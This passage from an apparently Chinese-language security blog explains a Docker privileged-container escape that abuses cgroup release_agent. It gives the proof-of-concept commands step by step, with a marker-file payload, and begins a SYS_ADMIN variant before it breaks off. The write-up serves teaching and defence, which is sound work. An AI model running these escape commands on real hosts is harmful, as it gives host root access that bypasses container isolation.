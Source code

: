  

逃逸效果如图：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222801.png)2022-03-13-23-34-45.png有点云里雾里？不怕，我分步骤解析一下上面的PoC，这个姿势最终就是这枚漏洞的关键。第一步：`cgroup_dir=/sys/fs/cgroup/rdma`
，找到一个包含`release_agent`的目录，由前面的cgroups知识得知，notify_on_release的触发条件需要同时满足子系统下notify_on_release文件值为1并且他的最顶层子系统有可执行的`release_agent`文件。notify_on_release文件在每一个层级的子系统中都有，但是`release_agent`文件不是每个顶层子系统都有的。直接创建release_agent文件会提示权限不足：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222802.png)2022-03-14-00-52-13.png默认符合条件的只有rdma子系统，也可以使用cgroup_dir=`dirname
$(ls -x /s*/fs/c*/*/r* |head -n1)`进行查找和定位。第二步：`mkdir -p
$cgroup_dir/test_subsystem`
，在刚刚找到的子系统下创建一个自定义的子系统，名字随意。这里我们能观察到当执行mkdir的时候并不像平时那样创建一个新的空文件目录，而是把此子系统需要的属性虚拟文件全都自动创建了：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222803.png)2022-03-14-01-02-29.png第三步：`echo
1
``>$cgroup_dir/test_subsystem/notify_on_release`，将刚刚创建的test_subsystem子系统中的`notify_on_release`文件配置为1用来在
**全部进程都退出该cgroup子系统后触发内核调用release_agent** 。这个比较好理解，不做过多解释了。在进行第四步前，再补一个小知识：
**Docker存储**
。我们都知道Docker镜像是分层存储的，实际上整个Docker容器在运行中默认使用的存储方式为OverlayFS文件系统，默认使用的驱动是overlay2。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222804.png)2022-03-14-01-18-08.pngOverlayFS
在Linux
宿主机上分层为两个目录，在容器中它们显示为一个目录。这些目录被称为“层”，OverlayFS将下层目录称为`lowerdir`，上层目录称为`upperdir`。合并后的称为`merged`。OverlayFS文件系统的结构图大致如下(图片引用自Docker官方文档)：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222805.png)2022-03-14-01-34-46.jpg`lowerdir`
**一般存储的是镜像相关的层**
，**`upperdir`一般存储的是运行中的未提交容器层**，他们都被挂载到了宿主机的文件系统中：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222806.png)2022-03-14-01-41-19.png在容器内部，可以通过查看`/etc/mtab`文件来找到此容器对应的`lowerdir`和`upperdir`。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222808.png)2022-03-14-01-39-04.png通常情况下，`upperdir`中映射了容器运行时变动的内容
：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222810.png)2022-03-14-02-02-02.png
**但是容器内部有Namespace隔离，我们无法直接在容器内部运行宿主机的文件和代码，更无法以宿主机的root权限运行。那么若想逃逸，我们需要“借刀杀人”。这个逃逸姿势中，刀就是cgroup的notify_on_release功能**
。cgroup和notify_on_release都是Linux内核的功能，Docker容器是共用宿主机的Linux内核的，
**所以我们通过在容器内部控制cgroup来在宿主机以很高的权限运行代码。** 继续看PoC：第四步：`host_overlay2_fs_dir=`sed
-n 's/.*\upperdir=([^,])./\1/p' /etc/mtab`，找到宿主机上的`upperdir`挂载目录。第五步：`echo
'#!/bin/sh' > /script;echo "touch
/hacked_by_tunan_use_cg_notify_on_release_and_privileged_containter" >>
/script`，在容器内部创建Payload。第六步：`echo "$host_overlay2_fs_dir/script" >
$cgroup_dir/release_agent`，把Payload目录路径写入`release_agent`。第七步：`chmod a+x
/script `添加执行权限。第八步：`sh -c "echo \$\$
``>$cgroup_dir/test_subsystem/cgroup.procs"` 添加一个 **执行后就退出的进程**
到新创建的cgroup子系统中来触发notify_on_release。到目前为止，这个逃逸姿势已经讲完了，虽说需要特权容器，但是整个思路还是很妙的。再梳理一下整个流程如下图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222812.png)2022-03-14-15-29-18.png
** **>** **>  **SYS_ADMIN下的容器逃逸姿势(此时还不是漏洞)[4]**Felix的Twitter发完几天后，一名叫Dominik
'disconnect3d' Czarnota（大概吧）的研究员发表了一篇文章：Understanding Docker container
escapes[5]称我可以不用特权容器就能逃逸，我“只需要”给容器SYS_ADMIN的能力就可以(`docker run --cap-
add=SYS_ADMIN --security-opt apparmor=unconfined --name test-nginx-sys-admin
-d
nginx`)。此时的容器和刚才有什么区别呢？我们发现没有权限新建cgroup子系统了也没有权限修改cgroup子系统中的文件了：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222813.png)2022-03-14-16-00-44.png![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222815.png)2022-03-14-02-40-01.png
**如何绕？**
在前置知识中有提到，如果用户想操作cgroups可以使用mount挂载cgroup虚拟文件系统，cgroup虚拟文件系统默认挂载到`/sys/fs/cgroup`目录下，
**这个自动挂载目录的操作权限较高** ，用户也可以自行将cgroups虚拟文件系统挂载到用户权限可及的目录下。于是PoC修改如下：
